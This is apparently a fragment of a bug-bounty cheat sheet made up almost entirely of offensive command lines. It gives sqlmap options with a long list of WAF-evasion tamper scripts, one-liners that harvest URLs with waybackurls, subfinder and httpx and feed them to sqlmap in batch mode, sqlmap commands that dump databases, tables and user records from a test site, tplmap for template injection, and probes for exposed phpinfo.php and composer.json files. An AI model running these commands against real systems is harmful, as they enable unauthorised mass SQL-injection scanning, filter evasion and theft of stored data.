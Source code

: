      --random-agent --dbms=MYSQL --dbs --technique=B
-

     -v3 --technique=T --no-cast --fresh-queries --banner
-

     tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords


## SQLi One Linear :-

     cat target.com | waybackurls | grep "\?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
-

     subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt


## Dump-Data :-

     sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs  (Databases)
-

     sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )
-

     sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )
-

     sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users

__________________________________________________________________________________________________

## SSTI :-


FOR Testing SSTI and tplmap tool :-

     git clone https://github.com/epinna/tplmap.git
-

     ./tplmap.py -u "domain.com/?parameter=SSTI*"

__________________________________________________________________________________________________

     httpx -l live_subs.txt --status-code --title -mc 200 -path /phpinfo.php
-

     httpx -l live_subs.txt --status-code --title -mc 200 -path /composer.json
